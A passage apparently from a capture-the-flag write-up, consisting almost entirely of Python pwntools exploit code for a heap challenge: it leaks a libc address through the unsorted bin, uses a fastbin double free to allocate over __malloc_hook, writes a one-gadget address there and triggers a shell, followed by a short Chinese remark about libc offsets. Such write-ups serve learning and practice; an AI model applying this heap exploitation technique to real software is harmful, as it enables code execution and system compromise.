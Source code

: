 ```python

    def addn(idx:int, size:int, content:bytes=b' ', hooked:bool=False):
        sh.sendlineafter(b'ice:', b'1')
        sh.sendlineafter(b'Index', str(idx).encode())
        sh.sendlineafter(b'Size', str(size).encode())
        if hooked:
            return
        sh.sendlineafter(b'Content', content)

    def deln(idx:int):
        sh.sendlineafter(b'ice:', b'3')
        sh.sendlineafter(b'Index', str(idx).encode())

    def show(idx:int) -> bytes:
        sh.sendlineafter(b'ice:', b'2')
        sh.sendlineafter(b'Index: ', str(idx).encode())
        return sh.recvline()

    # leak libc addr (unsorted bin)
    addn(15, 0x80)
    addn(14, 0x80) # prevent it being merged into top chunk
    deln(15)
    ret = show(15)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(ret[:6] + b'\0\0')
    libcBase = mainArena - dumpArena - 0x58 # sub unsorted bin offset
    print(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    mallocHook = libcBase + libc.symbols['__malloc_hook']
    ogg = libcBase + 0xf1247
    if (libcBase >> 40) & 0b1 != 1:
        print('\x1b[33mmalloc_hook can not be alloced!\x1b[0m')
        sh.close()
        return 0

    # double free to malloc at mallocHook
    addn(0, 0x60)
    addn(1, 0x60)
    deln(0)
    deln(1)
    deln(0)                               # head -> 0 -> 1 -> 0
    addn(2, 0x60, p64(mallocHook - 0x23)) # head -> 1 -> 0 -> mallocHook [0]
    addn(3, 0x60)                         # head -> 0 -> mallocHook [1]
    addn(4, 0x60)                         # head -> mallocHook [0]
    addn(5, 0x60, b'\0'*0x13 + p64(ogg))  # write ogg on mallocHook
    addn(6, 0x18, b'\0', True) # trigger one gadget

    sh.clean()
    sh.interactive()
    return 1
```

> 一开始libc忘记调了，结果调偏移调不出来了:[
